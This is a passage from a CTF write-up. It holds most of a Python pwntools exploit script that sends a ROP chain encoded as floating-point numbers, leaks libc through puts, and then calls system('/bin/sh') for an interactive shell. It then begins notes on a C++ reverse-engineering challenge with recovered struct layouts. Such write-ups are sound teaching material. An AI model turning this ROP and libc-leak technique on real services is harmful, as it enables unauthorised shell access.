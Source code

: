 ```python  

	length = 35 + len(rop)/8  
	sh.sendline(str(length))

	for i in xrange(35):  
		sh.sendline("-")

	for i in xrange(0, len(rop), 8):  
		sh.sendline("%.800f" % up("<d", rop[i:i+8])[0])

	sh.recvuntil("Result = ")  
	sh.recvuntil('\n')

rop = pop_rdi  
rop += p64(p.got["puts"])  
rop += p64(p.plt["puts"])  
rop += main  
exploit(rop)

leak = sh.recvuntil('\n')

libc_addr = u64(leak[:-1] + '\x00\x00') - e.symbols["puts"]  
print hex(libc_addr)

rop = p64(0x400958) #retn  
rop += pop_rdi  
rop += p64(libc_addr + next(e.search("/bin/sh")))  
rop += p64(libc_addr + e.symbols["system"])  
rop += p64(0)

exploit(rop)

sh.interactive()  
```

## 287 Reverse / Mind Space

This is a C++ reverse engineering challenge. Fortunately the optimization is
not enabled, otherwise many C++ built-in functions would be "inlined" and the
codes would be very messy. The key is to recognize `std::vector`,
`std::string` and `angles` structure.

```c  
struct angles  
{  
 _QWORD field_0;  
 _QWORD field_8;  
};//actually they are `double` type  
struct vector  
{  
 angles *pointer;  
 angles *end;  
 angles *real_end;  
};  
struct string  
{  
 char *pointer;  
 size_t len;  
 size_t maxlen_data;  
 __int64 field_18;  
};  
```
